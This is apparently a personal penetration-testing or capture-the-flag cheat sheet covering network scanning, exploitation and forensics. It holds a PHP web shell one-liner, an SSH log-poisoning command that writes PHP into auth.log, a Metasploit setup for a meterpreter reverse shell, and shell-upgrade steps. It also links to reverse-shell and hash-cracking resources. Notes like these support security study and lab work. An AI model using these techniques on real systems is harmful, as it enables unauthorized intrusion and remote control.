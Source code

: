 # Notes

## Reconnaissance

### Local IP address

``` bash
ip a
hostname -I
ME=$(hostname -I | xargs)
```

### Network scan

```bash
nmap -sn "$ME/24"
```

### Target scan

```bash
nmap -A -p- $TARGET
```



## Exploitation

### Web shells

* Kali: `usr/share/webshells/`
* Universal one-liner:

```php
<?php system($_GET['cmd']); ?>
```



### Log poisoning

Write to `auth.log`:

```bash
ssh '<?php system($_GET['c']); ?>'@$TARGET
```

Log file location: `/var/log/auth.log`

Goal: Reverse shell

Resources:

* https://www.hackingarticles.in/apache-log-poisoning-through-lfi/

### Wordpress security

### UDP services and webshells

Webshell using Metasploit:

```bash
msfconsole
use exploit/multi/script/web_delivery
set target 1
set payload php/meterpreter/reverse_tcp
set lhost $KALI
set srvport 8080
exploit
```

### Wildcard injection



### SUID/GUID bits, basic binary exploitation

###  Offline cracking

### Vulnerability scanning and exploit identification

### Wireshark filters

### Binary tools

* `file`
* `strings`
* `ltrace`
* `strace`
* `radare2`
* `gdb`

## Forensics

### Hex editors

* Command line: `xxd`
* Editor of choice: [wxHexEditor](https://www.wxhexeditor.org/)
  * Extract data using “Set Selection Block Start/End” > “Save As Dump”





### Reverse shell

* http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md



## Misc

### Upgrading TTY

```
# (local)
echo $TERM  # xterm-256color
stty size   # 24 80

# remote
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-256color
export SHELL=/bin/bash
# ctrl+z
stty raw -echo
fg
reset
stty rows 24 cols 80
```

### Online resources

* String conversion:
  * http://www.utilities-online.info/base64/
  * https://ringzer0ctf.com/tool
* Hash reversal:
  * https://crackstation.net/
  * https://hashes.org/search.php
  * https://md5decrypt.net/en/
  * https://hashkiller.co.uk/Cracker/MD5

### Kali settings

* Settings
  * Keyboard > Add Custom Shortcut > `gnome-terminal` / `Ctrl+Alt+T`
  * Power > Automatic suspend: off
* Dash to Dock settings 
  * Panel mode: extend to the screen edge
  * Intelligent autohide: off